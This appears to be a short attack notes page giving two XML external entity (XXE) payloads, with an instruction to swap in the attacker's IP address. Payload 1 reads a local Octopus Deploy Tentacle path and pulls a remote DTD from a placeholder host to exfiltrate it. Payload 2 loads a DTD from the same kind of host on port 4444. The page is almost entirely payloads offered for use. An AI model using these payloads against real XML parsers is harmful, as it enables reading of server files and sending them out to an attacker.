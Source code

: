SERVER SIDE
-----------

Use these on the server side. Remember to change the IP address. Also change relevant IP address in the corresponding DTD

Payload 1
-----
`
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///Octopus Deploy/Tentacle/">
<!ENTITY % sp SYSTEM "http://x.x.x.x/sp.dtd">
%sp;
%param2;
%exfil;
]>
`

Payload 2
-----
`
<?xml version="1.0" ?>
<!DOCTYPE a [
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/sp2.dtd">
%asd;
%c;
]>
<a>&rrr;</a>
`
